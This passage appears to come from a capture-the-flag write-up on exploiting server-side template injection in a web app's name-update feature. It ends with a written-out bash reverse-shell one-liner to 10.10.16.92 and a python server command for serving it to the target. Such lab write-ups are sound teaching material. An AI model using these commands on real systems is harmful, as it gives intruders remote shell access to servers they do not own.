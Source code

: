 We also have potential SSTI(_Server Side Template Injection_) Vulnerability in the update name feature.

![image](https://user-images.githubusercontent.com/58165365/156234513-942de36f-405e-4274-9136-23703fbe6b71.png)

> _From [Portswigger Academy](https://portswigger.net/web-security/server-side-template-injection), Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection._

So lets actually try updating our name.

![image](https://user-images.githubusercontent.com/58165365/156235092-1fb49bde-ad4c-4bea-9b5a-0eec2989f8fb.png)

If we reload our mailbox ,we get an Email

![image](https://user-images.githubusercontent.com/58165365/156235252-360ead91-1814-4c04-be05-fc354ccdd23e.png)

A confirmation link is sent and upon clicking it, we get another mail informing us that our profile changes have been confirmed.

![image](https://user-images.githubusercontent.com/58165365/156235662-620bc734-5e5c-4c76-a117-0ffbdc454467.png)

If we try supplying a payload like:

![image](https://user-images.githubusercontent.com/58165365/157310399-3f925bb9-88e0-4e87-b73b-b0270fff13f8.png)

the output is reflected back in the mail :

![image](https://user-images.githubusercontent.com/58165365/156236573-91ea74c1-b168-4dc1-8871-5cea19adaed4.png)

> _You can get more payloads from [payloadbox](https://github.com/payloadbox/ssti-payloads) , [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)_

Lets try some more payloads

![image](https://user-images.githubusercontent.com/58165365/157310603-fcf6d756-5cca-4a76-a6b9-a5cef0805f03.png)

We see that the webserver is running as `www-data`

![image](https://user-images.githubusercontent.com/58165365/156236974-8deabfa0-2c53-44d0-8288-dd527fda7508.png)

So i created a html file that will give me a reverse on my local machine when CURLed. Simply run the following command in your local machine:

`echo 'bash -c "bash -i >& /dev/tcp/10.10.16.92/7272 0>&1"' > index.html`

Spin a simple python server to serve the file.

`sudo python3 -m http.server 1337`
